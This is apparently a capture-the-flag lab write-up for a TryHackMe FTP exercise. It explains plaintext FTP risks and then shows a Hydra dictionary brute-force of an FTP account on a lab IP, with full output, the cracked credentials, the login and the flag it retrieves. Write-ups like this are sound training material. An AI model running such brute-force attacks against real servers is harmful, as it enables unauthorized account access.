 
**Types of FTP Exploit**

Similarly to Telnet, when using FTP both the command and data channels are unencrypted. Any data sent over these channels can be intercepted and read.

With data from FTP being sent in plaintext, if a man-in-the-middle attack took place an attacker could reveal anything sent through this protocol (such as passwords). An article written by [JSCape](https://www.jscape.com/blog/bid/91906/Countering-Packet-Sniffers-Using-Encrypted-FTP) demonstrates and explains this process using ARP-Poisoning to trick a victim into sending sensitive information to an attacker, rather than a legitimate source.

When looking at an FTP server from the position we find ourselves in for this machine, an avenue we can exploit is weak or default password configurations.  

**Method Breakdown**

So, from our enumeration stage, we know:

    - There is an FTP server running on this machine  

    - We have a possible username  

Using this information, let's try and **bruteforce** the password of the FTP Server.

**Hydra**

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra is already installed on the AttackBox, however, if you need it on your own attacking machine, you can find the GitHub repository [here](https://github.com/vanhauser-thc/thc-hydra).  

The syntax for the command we're going to use to find the passwords is this:

**"hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp"**

Let's break it down:

SECTION             FUNCTION  
  
hydra                   Runs the hydra tool  
  
-t 4                    Number of parallel connections per target  
  
-l [user]               Points to the user who's account you're trying to compromise  
  
-P [path to dictionary] Points to the file containing the list of possible passwords  
  
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
  
[machine IP]            The IP address of the target machine  
  
ftp / protocol          Sets the protocol

Let's crack some passwords!


## Write-up

1) Time for some brute-force action using hydra

2) Since i had no hydra and the wordlist present, i installed it:

```shell
sudo apt install hydra
sudo apt install wordlists
```

3) The wordlist was zipped in gzip so:

```shell
gunzip rockyou.txt.gz
```

To unzip it.

4) Finally testing the hydra tool:

```shell
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.36.94  ftp
```

Output:

```shell
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-29 10:34:04
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.36.94:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.36.94 - login "mike" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.36.94 - login "mike" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.36.94 - login "mike" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.36.94 - login "mike" - pass "password" - 4 of 14344399 [child 3] (0/0)
[21][ftp] host: 10.10.36.94   login: mike   password: password
[STATUS] attack finished for 10.10.36.94 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-29 10:34:12
```

Hydra cracked the password for us, and it's `password`, one of the most common passwords.

5) Now that I had both the username and passwords, i logged in as mike:

```shell
ftp> ftp 10.10.36.94
Connected to 10.10.36.94.
220 Welcome to the administrator FTP service.
Name (10.10.36.94:itsjustme): mike
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||18606|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24  2020 ftp
-rwxrwxrwx    1 0        0              26 Apr 24  2020 ftp.txt
226 Directory send OK.
ftp> get ftp.txt -
remote: ftp.txt
229 Entering Extended Passive Mode (|||12409|)
150 Opening BINARY mode data connection for ftp.txt (26 bytes).
THM{y0u_g0t_th3_ftp_fl4g}
226 Transfer complete.
26 bytes received in 00:00 (38.70 KiB/s)
```

As you can see, soon after i logged in i listed the files in the directory and read the `ftp.txt` file to get the flag!